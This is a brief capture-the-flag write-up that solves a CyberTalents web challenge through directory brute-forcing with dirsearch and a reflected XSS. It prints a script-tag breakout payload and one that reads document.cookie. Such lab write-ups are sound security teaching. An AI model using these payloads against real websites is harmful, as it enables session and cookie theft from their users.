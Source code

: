 # Solve searching-for-the-cookie
#### https://cybertalents.com/challenges/web/searching-for-the-cookie

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6meg23gr7h8v4kj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

### Try XSS

onload=alert(1)

`http://wcamxwl32pue3e6meg23gr7h8v4kj6zqdkgxu639-web.cybertalentslabs.com/?s=onload%3Dalert(1)`

The parameter is reflected in:
```js
<script>var currentSearch = {'keyword':'you searched for: onload=alert(1)'};</script>
```
We need to end the frist script with `</script>` and start our payload

payload: `</script><script>alert("m_1337")</script>`

![alt text](images/image-1.png)

Dump cookie `</script><script>alert(document.cookie)</script>`

![alt text](images/image-2.png)

>Find More on ==> github.com/MedhatHassan 
